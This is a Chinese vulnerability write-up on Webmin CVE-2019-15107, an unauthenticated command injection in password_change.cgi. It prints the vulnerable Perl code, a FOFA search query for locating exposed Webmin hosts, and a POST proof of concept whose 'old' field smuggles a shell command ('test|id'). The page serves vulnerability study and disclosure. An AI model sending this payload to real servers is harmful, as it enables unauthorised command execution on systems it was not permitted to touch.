



# Webmin password_change.cgi 远程命令执行漏洞 CVE-2019-15107

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=1.920 claimed;password-expiry/config and distribution provenance unstated
- 证据范围：old input to qx command explains flaw;minimal POST and screenshots

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Version/auth claims too broad without backdoored-package provenance and password-change setting prerequisites
- Source snippet checks existing wuser but request uses rootxx; explain tested account/path
- No upstream advisory/fix/build; small format typo
- Related48/49 likely same issue; compare details before merging

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页。面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

## 漏洞影响

```
Webmin <= 1.920
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面


漏洞的触发点为文件 password_change.cgi



其中接受的POST传参的几个参数为 `user pam expired old new1 new2`， 值得注意的参数为 old, 对应的代码片段存在漏洞



```
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

在 perl 中 `qx/id/`, 对应执行系统命令 id, 而可控的参数里 old 参数是可控的，导致命令执行 并通过 pass_error 回显至页面中， 验证POC

```
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```




---

> 来源：Threekiii/Awesome-POC
